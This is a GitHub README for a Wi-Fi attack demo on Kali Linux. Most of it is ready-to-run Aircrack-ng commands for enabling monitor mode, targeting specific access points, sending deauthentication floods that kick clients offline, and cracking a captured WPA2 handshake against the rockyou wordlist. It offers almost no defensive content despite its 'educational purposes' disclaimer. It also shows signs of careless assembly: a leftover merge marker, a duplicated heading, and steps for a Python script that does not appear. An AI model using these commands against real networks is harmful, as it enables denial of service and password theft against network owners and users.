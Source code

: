 # WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux using tools like Aircrack-ng and Aireplay-ng.  
This project demonstrates deauthentication attacks, brute-force cracking, and defenses.  
It also includes a presentation on attack types, tools, and commands.  

**⚠️ For ethical research and educational purposes only.**

---

## Table of Contents

1. [Demonstration](#demonstration)
2. [Instructions](#instructions)
3. [Prerequisites](#prerequisites)

---

## Demonstration

### View Network Interfaces
```bash
ifconfig
```

### Start Monitor Mode on `wlan0`
```bash
airmon-ng start wlan0
```

### Kill Interfering Processes
```bash
airmon-ng check kill
```

### Confirm Monitor Mode
```bash
iwconfig
```

### Start Scanning for Wi-Fi Networks
```bash
airodump-ng -i wlan1
```

### Target Specific BSSID and Channel
```bash
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan1
```

### Deauthentication Attack (Kick Clients Out)
```bash
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan1
aireplay-ng -0 20 -a F8:0C:58:B7:4C:51 wlan1
```

### Brute Force Attack
```bash
aircrack-ng -a2 -b F8:0C:58:B7:4C:51 -w /home/kali/Desktop/rockyou.txt /home/kali/Desktop/wpa2/-01.cap
```

### Stop Monitor Mode
```bash
airmon-ng stop wlan1

sudo service network-manager restart

sudo systemctl restart NetworkManager

```

---

=======

**#  📝 Instructions** # WiFi-DOS-Kali

1. Save the script as `wifi_dos_attack.py`.
2. Run it with `sudo`:
   ```bash
   sudo python3 wifi_dos_attack.py
   ```
3. Ensure the Aircrack-ng suite is installed:
   ```bash
   sudo apt install aircrack-ng
   ```

---

## Prerequisites

- **Operating System**: Kali Linux
- **Tools**: Aircrack-ng suite (includes `airodump-ng`, `aireplay-ng`, etc.)
- **Hardware**: A Wi-Fi adapter capable of monitor mode and packet injection
- **Permissions**: Root access (`sudo`)

---

**Disclaimer**:  
This project is intended for ethical research and educational purposes only.  
Unauthorized use of these tools may violate laws and regulations.